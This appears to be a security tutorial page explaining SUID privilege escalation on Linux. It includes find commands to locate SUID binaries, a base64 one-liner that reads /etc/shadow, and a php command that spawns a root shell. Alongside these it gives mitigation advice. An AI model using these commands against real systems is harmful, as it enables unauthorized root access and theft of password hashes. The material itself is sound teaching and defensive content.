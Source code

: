A *SUID* (*Set User ID*) privilege is a special permission that can be set on a binary file on Unix/Linux systems. This permission gives the user running the file the *same privileges* as the *owner* of the file.

For example, if a binary file has the SUID permission set and is owned by the root user, any user running it will temporarily acquire the same privileges as the root user, allowing them to perform actions that they would not normally be able to do as a normal user.

SUID privilege abuse is a technique used by attackers to elevate their level of access on a compromised system. If an attacker is able to gain access to a binary file with SUID permissions, he can execute commands with special privileges and perform malicious actions on the system.

To prevent SUID privilege abuse, it is recommended to limit the number of files with SUID permissions and ensure that they are only granted to files that require this permission to function properly. In addition, it is important to regularly monitor the system for unexpected changes in file permissions and to look for possible security breaches.

# Search for files with SUID permission

We can *search* for all files with *SUID* permissions on the system with the *find* command:

```bash
find / -perm -4000 2>/dev/null
```

We can also see the *owner* of those files:

```bash
find / -perm -4000 -ls 2>/dev/null
```

# Examples

## Viewing privileged files

Let's assume that the *base64* binary has the following permissions:

```bash
-rwsr-xr-x 1 root root 35328 Feb 7 2022 /usr/bin/base64
```

As we can see it has the *SUID* permission and its owner is *root*. This means that any user can execute *base64* as its owner, in this case, *root*.

Currently as a normal user we cannot read the */etc/shadow* file, but having the *base64* binary with *SUID* permission we can run the following command to read it:

```bash
base64 /etc/shadow -w 0 | base64 -d
```

## Escalating privileges

Let's assume that the *php* binary has *SUID* permissions. We could enter the following command to *escalate privileges*:

```bash
php -r "pcntl_exec('/bin/sh', ['-p']);"
```

This would launch a *shell* as *root*.

----
> Once inside the shell, if we wanted to launch a bash with privileges we should execute the *bash -p* command.
----

It is convenient to look at all the *binaries* covered by [GTFObins](https://gtfobins.github.io/) to see if there are any that have *SUIDs* and have a potential way to *elevate privileges*.